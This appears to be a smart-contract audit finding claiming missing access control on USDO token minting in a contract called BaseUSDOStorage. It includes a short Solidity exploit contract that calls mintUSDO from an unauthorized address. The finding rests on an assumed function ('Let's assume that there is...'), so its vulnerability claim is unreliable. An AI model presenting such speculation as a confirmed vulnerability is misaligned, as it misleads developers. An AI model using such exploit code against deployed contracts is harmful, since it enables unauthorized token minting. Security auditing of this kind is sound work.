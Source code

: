 Lack of proper access control, allows unauthorized users to perform certain actions that should be restricted. In this contract, it seems like there are functionalities related to minting and burning of USDO tokens, and access controls for these actions should be examined.

Let's assume that there is a function called mintUSDO(uint256 amount) that allows a privileged address (minter) to mint new USDO tokens. The vulnerability is that there is no proper access control, and any address can call this function without restrictions.

Here's a Proof-of-Concept (PoC) to demonstrate this vulnerability:

Deploy the contract BaseUSDOStorage with the required parameters, including _lzEndpoint and _yieldBox.
Call the mintUSDO function from any arbitrary address, even though it should be restricted to authorized minters only.


// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.18;

// ... (import statements and other contract code)

// Inherit from BaseUSDOStorage
contract ExploitContract {
    BaseUSDOStorage public usdoStorage;

    constructor(address _usdoStorageAddress) {
        usdoStorage = BaseUSDOStorage(_usdoStorageAddress);
    }

    // Function to exploit the vulnerability
    function exploit() external {
        uint256 amountToMint = 1000; // Replace with desired amount to mint
        // Call the vulnerable function from an unauthorized address
        usdoStorage.mintUSDO(amountToMint);
    }
}